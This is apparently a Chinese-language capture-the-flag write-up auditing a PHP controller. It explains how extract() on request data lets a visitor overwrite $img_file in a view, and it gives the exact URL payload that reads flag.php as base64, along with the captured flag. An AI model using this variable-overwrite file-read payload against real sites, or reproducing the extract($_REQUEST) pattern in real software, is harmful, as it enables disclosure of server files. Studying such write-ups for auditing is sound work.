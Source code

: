 这样我们就应该先来审计控制器的代码。

不难发现，在BaseController中有着这么一段明显有问题的代码

```
public function loadView($viewName ='', $viewData = [])
{
    $this->viewPath = BASE_PATH . "/View/{$viewName}.php";
    if(file_exists($this->viewPath))
    {
        extract($viewData);
        include $this->viewPath;
    }
}
```

这段代码中使用了 `extract()` ，以及包含了 `/View/{$viewName}.php` ，也就是说我们能通过 `$viewName` 和 `$viewData` 这两个变量来更改 `/View` 下任何一个php文件的任何一个变量的值。

 

在UserController中找到了以下代码:

```
public function actionIndex()
{
    $listData = $_REQUEST;
    $this->loadView('userIndex',$listData);
}
```

 

可以看出来，其中 `$listData` 是从请求中获取，用户可控，而其对应的 `/View/userIndex.php` 中存在一个文件读取：

```
<div class="fakeimg"><?php
    if(!isset($img_file)) {
        $img_file = '/../favicon.ico';
    }
    $img_dir = dirname(__FILE__) . $img_file;
    $img_base64 = imgToBase64($img_dir);
    echo '<img src="' . $img_base64 . '">';       //图片形式展示
    ?></div>
```

 

其中 `imgToBase64()` 实现的是将目标文件转化成base64格式。而我们只需要将 `$img_file` 改成 `/flag.php` 即可。

访问 `http://ip/index.php?r=User/Index&img_file=/../flag.php` 即可获得flag的base64

flag{fd2a64c6-8bd5-48c8-8ed7-8b5974dfaddf}